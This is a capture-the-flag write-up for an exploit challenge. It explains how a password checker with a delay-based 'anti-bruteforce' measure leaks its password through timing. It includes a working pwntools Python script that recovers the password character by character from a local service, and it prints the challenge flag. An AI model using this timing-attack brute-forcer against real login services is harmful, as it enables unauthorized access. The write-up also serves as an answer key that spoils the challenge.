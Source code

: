 ## ikatepi

**Category:** Exploit

**Points:** 150

**Solves:** 0

### Write-up

the name of the challenge hinted to the side-channel attack, which is an attack based on information gained from the implementation of a computer system. looking at the source code provided, we can confirm that we can abuse the "anti-bruteforce" implementation by using a timing attack

![image](img/2018-10-05_02-39.png)

we can see that the program will loop through every character of the password and match it to our input. if both of them do match, it will print the error immediately while adding a 3 second delay when it is not. thus, we can abuse this by defining a timeout value when accepting data from the program. if we receive data below 3 second, we can assume that the character provided for that offset is correct. below is the implementation of the presumption in python

```python
from pwn import *
context.log_level = 'error'

passw = ''

try:
    while True:
        for i in xrange(33, 127):
            r = remote('127.0.0.1', 11111)
            r.recvuntil('Password: ')
            print "trying", passw + chr(i)
            r.sendline(passw + chr(i))
            ret = r.recvline(timeout=0.001)
            if ret:
                if '(x_x)/' not in ret:
                    raise Exception(ret)
                passw += chr(i)
                break
            r.close()
except Exception as e:
    print e
```

since i was testing in my own local machine, the timeout was quite fast ;p modify it to your own liking. also you can see the script in action below

[![asciicast](https://asciinema.org/a/l44MiFKV4ifKzkags73J14kFb.png)](https://asciinema.org/a/l44MiFKV4ifKzkags73J14kFb)

**Flag** : ` s1d3CH4nn3lFTW@kictm2018`